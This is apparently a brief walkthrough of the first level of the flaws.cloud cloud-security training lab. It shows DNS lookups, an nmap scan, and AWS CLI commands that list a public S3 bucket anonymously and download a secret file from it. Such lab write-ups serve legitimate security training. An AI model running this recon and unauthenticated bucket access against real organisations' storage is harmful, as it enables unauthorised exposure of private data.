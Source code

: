 # Bucket Listing Access Permission Set to Everyone

<b>Target: flaws.cloud</b>
history | sed 's/^ *[0-9]* *//'\n

<p>host flaws.cloud</p>
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/886eb38f-51a7-45fa-82c5-8192ed860e96)

<p>nslookup flaws.cloud</p>
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/4aba7dec-f57f-4167-8f21-9aecc8860781)

<p>nmap flaws.cloud</p>
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/91ebe710-8002-4998-ab5c-2a134d0a2421)

aws s3 ls flaws.cloud
aws s3 ls s3://flaws.cloud
aws s3 ls s3://flaws.cloud --region us-west-2
aws s3 ls s3://flaws.cloud --region us-west-2 --no-sign-request
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/06329809-f33a-4f4e-b0be-fd2f8035d7f6)

aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --region us-west-2 --no-sign-request .
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html --region us-west-2 --no-sign-request abc.html
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/ea776817-a549-40bf-a776-0fcb5438c20a)


